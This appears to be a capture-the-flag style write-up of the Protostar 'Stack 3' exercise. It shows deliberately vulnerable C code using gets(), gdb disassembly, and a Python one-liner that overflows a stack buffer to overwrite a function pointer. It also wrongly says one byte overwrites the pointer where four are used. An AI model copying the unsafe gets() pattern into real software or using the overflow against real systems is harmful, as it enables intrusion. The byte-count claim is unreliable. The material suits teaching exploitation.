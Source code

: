```yaml
---
title: Stack 3
sidebar_position: 4
custom_edit_url: null
pagination_next: null
pagination_prev: null
---
```


> Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)
> 
> **Hints**
> - both gdb and objdump is your friend you determining where the win() function lies in memory.

## Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```
There is a pointer `fp` which is set to 0. The program then jumps to the address in the `fp` pointer.
The `win` function is what we want to call. However it is not called by the `main` function.

Therefore we have to redirect program execution by overwriting the `fp` pointer.

In order to do that, we have to know the address of the `win` function.
```
(gdb) x win
0x8048424 <win>:        0x83e58955
```
So we set the value of `fp` to `0x08048424`.

Let's look at the program in `gdb`.
```
(gdb) disass main
Dump of assembler code for function main:
0x08048438 <main+0>:    push   ebp
0x08048439 <main+1>:    mov    ebp,esp
0x0804843b <main+3>:    and    esp,0xfffffff0
0x0804843e <main+6>:    sub    esp,0x60
0x08048441 <main+9>:    mov    DWORD PTR [esp+0x5c],0x0
0x08048449 <main+17>:   lea    eax,[esp+0x1c]
0x0804844d <main+21>:   mov    DWORD PTR [esp],eax
0x08048450 <main+24>:   call   0x8048330 <gets@plt>
0x08048455 <main+29>:   cmp    DWORD PTR [esp+0x5c],0x0
0x0804845a <main+34>:   je     0x8048477 <main+63>
0x0804845c <main+36>:   mov    eax,0x8048560
0x08048461 <main+41>:   mov    edx,DWORD PTR [esp+0x5c]
0x08048465 <main+45>:   mov    DWORD PTR [esp+0x4],edx
0x08048469 <main+49>:   mov    DWORD PTR [esp],eax
0x0804846c <main+52>:   call   0x8048350 <printf@plt>
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
0x08048477 <main+63>:   leave
0x08048478 <main+64>:   ret
```
We can see that the instruction at `main+57` is what sets up the function call.
```
0x08048471 <main+57>:   mov    eax,DWORD PTR [esp+0x5c]
0x08048475 <main+61>:   call   eax
```
Let's find the distance between the `buffer` and `fp`.
```
(gdb) p/d 0x5c - 0x1c
$1 = 64
```
Therefore we need 65 bytes in total, 64 bytes to fill the buffer and 1 byte to overwrite the `fp` function pointer. 

## Exploit
Note that the value is stored in little-endian. 
```
$  python -c 'print "A"*64 + "\x24\x84\x04\x08"' | ./stack3
calling function pointer, jumping to 0x08048424
code flow successfully changed
```
